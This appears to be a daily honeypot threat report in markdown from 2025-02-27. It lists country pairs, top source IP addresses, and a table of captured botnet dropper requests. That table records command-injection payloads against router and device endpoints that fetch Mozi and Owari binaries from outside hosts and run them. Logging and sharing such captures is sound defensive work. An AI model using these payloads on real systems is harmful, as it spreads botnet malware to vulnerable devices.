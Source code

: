 ```yaml
---
title: "Report: 2025-02-27 "
date: 2025-02-27
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-27
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| DE               | Germany            |
| FR               | Australia          |
| AU               |                    |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                    |
|:---------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 91.224.92.10   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F193.143.1.123%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |
| 45.178.251.22  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.178.251.22:11444/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0               |
| 120.84.214.131 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                      |
| 31.171.242.43  | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://104.248.155.103/Binarys/Owari.arm;chmod+777+/tmp/Owari.arm;sh+/tmp/reap.arm4 HTTP/1.1                                                             |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   200 | 172.105.184.153 |
|   1 |                   158 | 172.105.246.139 |
|   2 |                   136 | 193.41.206.202  |
|   3 |                   105 | 45.148.10.35    |
|   4 |                    79 | 193.68.89.10    |
|   5 |                    69 | 195.178.110.163 |
|   6 |                    59 | 92.255.57.58    |
|   7 |                    58 | 45.148.10.34    |
|   8 |                    57 | 45.148.10.90    |